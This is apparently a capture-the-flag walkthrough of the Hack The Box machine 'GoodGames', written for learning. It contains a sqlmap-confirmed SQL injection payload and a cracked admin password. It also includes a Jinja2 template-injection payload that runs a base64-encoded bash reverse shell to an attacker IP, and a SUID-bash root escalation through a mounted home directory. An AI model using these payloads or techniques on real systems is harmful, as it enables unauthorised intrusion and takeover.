




## Reconnaissance

### Port Scanning

As usual I started with a full TCP scan to identify the open ports and services running on the target machine.

```bash
┌─[tr3m0x@parrot]─[~]
└──╼ $ sudo nmap -sC -sV -p- -T4 --min-rate 1000 --reason 10.129.96.71 -oN nmap/tcp_scan.nmap 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-08-30 20:15 CET
Stats: 0:00:38 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 54.58% done; ETC: 20:17 (0:00:32 remaining)
Nmap scan report for 10.129.96.71
Host is up, received echo-reply ttl 63 (0.13s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Werkzeug httpd 2.0.2 (Python 3.9.2)
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
|_http-title: GoodGames | Community and Store

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 80.24 seconds
```
### Web Enumeration
A single TCP port is open. Next, I visited the web application.<br>


After creating an account and signing in, I found at the bottom of the page and saw **GoodGames.HTB**.<br>



So I added **goodgames.htb** to my **/etc/hosts** file.

```bash
┌─[tr3m0x@parrot]─[~]
└──╼ $ echo "10.129.96.71 goodgames.htb" | sudo tee -a /etc/hosts
```

I tried to fuzz for vhosts but nothing appeared.<br>
Then I noticed something when I logged in: my nickname is rendered in the profile, and since the app is running Flask, I tried some server-side template injection payloads but got nothing.<br>

I also tried some XSS payloads, thinking there might be a bot visiting new user profiles, but nothing happened, and the HTML was also escaped.<br>



## Shell as root on docker container

### SQL Injection

Then I thought about testing the login for **SQL Injection** and sent a simple quote in the email and password fields.

```text
email=test1%40test.com'&password=test
```

I got **Internal server error!**<br>

So I saved the login request in a **login.req** file and used **sqlmap** to test for SQL injection.

```bash
┌─[tr3m0x@parrot]─[~]
└──╼ $ sqlmap -r login.req --level 5 --risk 3 --dbms=mysql --batch
```

and the sqlinjection was confirmed. 

```text
---
Parameter: #1* ((custom) POST)
    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: email=-8979' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x71706a7a71,0x76635a784b51576c4e62724c794a4e7165794f55495562497a675365467775745052587267484844,0x7170716b71)-- -&password=test
---
```

and then I dumped the user table.

```text
+----+---------------------+----------------------------------------------------------+-----------------------------------------+
| id | email               | name                                                     | password                                |
+----+---------------------+----------------------------------------------------------+-----------------------------------------+
| 1  | admin@goodgames.htb | admin                                                    | 2b22337f218b2d82dfc3b6f77e7cb8ec        |
| 2  | test@test.com       | test                                                     | 098f6bcd4621d373cade4e832627b4f6 (test) |
| 3  | test1@test.com      | {{7*7}}                                                  | 098f6bcd4621d373cade4e832627b4f6 (test) |
| 4  | test2@test.com      |  | 098f6bcd4621d373cade4e832627b4f6 (test) |
+----+---------------------+----------------------------------------------------------+-----------------------------------------+
```

let's crack the admin hash 
```bash
┌─[tr3m0x@parrot]─[~]
└──╼ $ hashcat -m 0 admin.hash /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #1: cpu-haswell-12th Gen Intel(R) Core(TM) i7-12700H, 6770/13605 MB (2048 MB allocatable), 20MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 5 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

2b22337f218b2d82dfc3b6f77e7cb8ec:superadministrator       
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 2b22337f218b2d82dfc3b6f77e7cb8ec
Time.Started.....: Sun Aug 30 21:32:41 2026 (0 secs)
Time.Estimated...: Sun Aug 30 21:32:41 2026 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 13466.2 kH/s (0.21ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 3481600/14344385 (24.27%)
Rejected.........: 0/3481600 (0.00%)
Restore.Point....: 3461120/14344385 (24.13%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: susubombita -> sunnersarah@rocketmai.com
Hardware.Mon.#1..: Temp: 96c Util:  8%

Started: Sun Aug 30 21:32:31 2026
Stopped: Sun Aug 30 21:32:42 2026
```

After logging in as Admin a new button appeared on the top bar clicking on it redirected me to **http://internal-administration.goodgames.htb**.<br>
so i added it to the /etc/hosts file and visited the page.<br>

<br>

I found an open-source flask dashbord with login page so I used the same credentials `admin:superadministrator` to login and I got access to the flask dashbord.<br>

### SSTI 

After some enumerarion it seemed that this dashboard don't have a lot of functionalities the only thing I found intersting is the settings page where we can change the **Full Name**, **Phone** and **Birthday**. <br>
It's basically the only page where we can input data so since it's flask as I said I would try some SSTI payloads and I got a response with the payload rendered.<br>

<br>

I used the following payload to get a reverse shell on the target machine.

```text
{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE1LjQ3LzQ0NDQgMD4mMQ== | base64 -d | bash')['read']()}}
```

And we got a shell as root on a container. 
```bash
nc -lnvp 4444 
Listening on 0.0.0.0 4444
Connection received on 10.129.96.71 37358
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@3a453ab39d3d:/backend# 
```

## Privilege escalation 

after getting the shell I enumerated the network. 

```bash 
root@3a453ab39d3d:/backend# ip a 
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
5: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.19.0.2/16 brd 172.19.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

And now we know that the host ip is 172.19.0.1.<br>
Also I found a directory **/home/augustus** where the user flag lives. 
```bash
root@3a453ab39d3d:/backend# ls -al /home/augustus/
total 24
drwxr-xr-x 2 1000 1000 4096 Nov  3  2021 .
drwxr-xr-x 1 root root 4096 Nov  5  2021 ..
lrwxrwxrwx 1 root root    9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000  220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 1000 1000 3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 1000 1000  807 Oct 19  2021 .profile
-rw-r----- 1 root 1000   33 Aug 30 19:06 user.txt
root@3a453ab39d3d:/backend# 
```

we can see the uid is set to 1000 which means that this directory is a directory mounted to the container since the augustus user does not exist on the container.<br>
Since the augustus user exists on the host machine  I tired to ssh with that user to the host using the `superadministrator`. (Honestly I assumed the ssh port is open on the host but we needed to enumerate ports xD )

```bash
root@3a453ab39d3d:/backend# ssh augustus@172.19.0.1
The authenticity of host '172.19.0.1 (172.19.0.1)' can't be established.
ECDSA key fingerprint is SHA256:AvB4qtTxSVcB0PuHwoPV42/LAJ9TlyPVbd7G6Igzmj0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '172.19.0.1' (ECDSA) to the list of known hosts.
augustus@172.19.0.1's password: 
Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
augustus@GoodGames:~$
```

and it worked we're now on the host .<br>

since the user home directory is mounted to the container we can copy the /bin/bash binary there and add the suid bit with the root we have on the container
```bash
augustus@GoodGames:~$ cp /bin/bash .
```
```bash
root@3a453ab39d3d:/home/augustus# chown root:root bash
root@3a453ab39d3d:/home/augustus# chmod chmod 4755 bash
```
check the suid bit 
```bash
augustus@GoodGames:~$ ls -la bash
-rwsr-sr-x 1 root root 1168776 Aug 30 22:12 bash
```

and we are root 
```bash
augustus@GoodGames:~$ ./bash -p 
bash-5.0# id
uid=1000(augustus) gid=1000(augustus) euid=0(root) groups=1000(augustus)
bash-5.0#
```


And that's it for this box . Thank you for reading